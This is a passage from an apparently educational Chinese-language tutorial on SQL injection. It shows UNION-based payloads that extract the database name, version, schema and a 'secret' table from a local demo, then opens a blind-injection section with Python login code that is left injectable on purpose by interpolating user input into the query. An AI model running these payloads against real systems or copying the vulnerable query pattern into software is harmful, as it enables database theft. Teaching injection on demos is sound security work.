 可以看到，实际执行的语句为

```sql
SELECT * FROM users WHERE username = '123' UNION SELECT 1, 2;#'
```

也就是说，在这个 demo 中，从数据库查询的内容会直接返回给用户，用户可以直接看到查询的内容

那我们是否可以进行一些其他的查询呢

构造语句 `123' UNION SELECT DATABASE(), @@version;#`

![](https://cdn.xyxsw.site/boxcnDeDp5yPE7W4KX9ByBl9ovh.png)

我们就能看到返回中包含了当前数据库名与当前数据库版本

如果数据库中除了 `users` 表还有其他的东西，我们是否能通过这个注入来获取呢...

构造语句 `123' UNION SELECT table_name, column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE();#`

> `information_schema` 库是一个 MySQL 内置数据库，储存了数据库中的一些基本信息，比如数据库名，表名，列名等一系列关键数据，SQL 注入中可以查询该库来获取数据库中的敏感信息。

![](https://cdn.xyxsw.site/boxcnkwvSnhKBhlHNLOSthgul9d.png)

我们可以发现，当前数据库中还存在一张叫 `secret` 的表，让我们偷看一下里面存的是什么

构造语句 `123' UNION SELECT 1, secret_string FROM secret;#`

![](https://cdn.xyxsw.site/boxcn3kfhJ79ByNML2Z1Q1MwRye.png)

好像得到了什么不得了的秘密 :-)

### 无回显的 SQL 盲注

#### 布尔盲注

我们对有回显的 SQL 注入的 demo 进行一点修改，代码如下

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

from sqlalchemy import create_engine
from hashlib import sha256

engine = create_engine("mysql+pymysql://root:TjsDgwGPz5ANbJUU@127.0.0.1:3305/sqli", max_overflow=5)

def query(username, password):
    with engine.connect() as con:
        query_exec = f"SELECT password FROM users WHERE username = '{username}'"
        print(query_exec)
        if con.execute(query_exec).scalar():
            passhash = con.execute(query_exec).fetchone()[0]
            return passhash == sha256(password.encode()).hexdigest()
        return False

def main():
    username = input("Give me your username: ")
    password = input("Give me your password: ")
    print("Login success" if query(username, password) else "Login failed")
    # 不再显示查询结果，而返回 success 或 failed

if __name__ == "__main__":
    main()
```
